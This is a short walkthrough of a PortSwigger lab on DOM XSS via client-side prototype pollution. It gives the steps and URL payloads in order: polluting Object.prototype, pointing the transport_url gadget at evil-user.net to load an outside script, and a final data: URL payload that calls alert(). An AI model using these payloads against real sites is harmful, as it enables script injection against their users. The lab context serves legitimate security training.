






# DOM XSS via client-side prototype pollution

## This lab is vulnerable to [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) via client-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution). To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.

You can solve this lab manually in your browser, or use [DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader) to help you

---

step 1

add into to url `?__proto__[evilProperty]=payload`
go to console type `Object.prototype`
you will see new property added `evilProperty: 'payload'`
it means You've successfully found a prototype pollution source.

step 2

go to source tab
go to js folder you will get searchLogger.js

**NOTE**:

step 3

test payload `?__proto__[transport_url]=//evil-user.net`
you will notice in elements tab `<script>` element has been rendered on the page

step 4
final payload `?__proto__[transport_url]=data:,alert(1);//`
you will get pop up alert

